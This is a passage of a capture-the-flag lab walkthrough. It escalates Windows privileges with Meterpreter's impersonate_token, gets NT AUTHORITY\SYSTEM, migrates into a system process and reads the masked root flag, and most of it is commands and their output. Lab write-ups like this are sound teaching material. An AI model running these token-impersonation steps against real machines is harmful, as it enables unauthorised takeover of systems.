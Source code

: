 	NT SERVICE\Dhcp
	NT SERVICE\DPS
	NT SERVICE\lmhosts
	NT SERVICE\MpsSvc
	NT SERVICE\netprofm
	NT SERVICE\nsi
	NT SERVICE\PolicyAgent
	NT SERVICE\Power
	NT SERVICE\ShellHWDetection
	NT SERVICE\W32Time
	NT SERVICE\WdiServiceHost
	NT SERVICE\WinHttpAutoProxySvc
	NT SERVICE\wscsvc
	``` 
	2. meterpreter > impersonate_token "BUILTIN\Administrators"
	```
	-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
	[+] Delegation token available
	[+] Successfully impersonated user NT AUTHORITY\SYSTEM
	```
	3. meterpreter > getuid
	```
	Server username: NT AUTHORITY\SYSTEM
	```
4. Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS
	1. meterpreter > ps
	2. meterpreter > migrate pid in my case 612 (winlogon.exe)
5. read the root.txt file at C:\Windows\System32\config => ***************************
	1. meterpreter cat read the root.txt file at C:\Windows\System32\config\root.txt
